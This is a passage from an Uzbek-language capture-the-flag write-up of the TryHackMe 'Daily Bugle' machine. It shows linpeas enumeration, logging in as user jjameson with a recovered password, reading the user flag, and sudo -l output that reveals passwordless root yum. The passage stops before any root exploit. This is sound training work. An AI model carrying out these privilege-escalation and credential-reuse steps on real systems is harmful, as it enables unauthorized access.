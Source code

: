 ```
chmod +x linpeas.sh
```

​    

Ishga tushurish:

```
./linpeas.sh 
```

  

Meni qiziqtirgan hisobot qismi:

![](https://raw.githubusercontent.com/akhatkulov/Write-Ups/refs/heads/main/TryHackme/Pictures/dailybugle_8.jpg)



Userga kirish:

```
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu
whoami
jjameson
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash: line 2: python3: command not found

ls
jjameson
cd 
ls
user.txt
cat user.txt 
27a260fe3cba712cfdedb1c86d80442e
```

Endi esa root tomon harakatlanamiz.

**sudo -l** buyrug'i orqali imkoniyatlarni tekshiramiz.

```
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
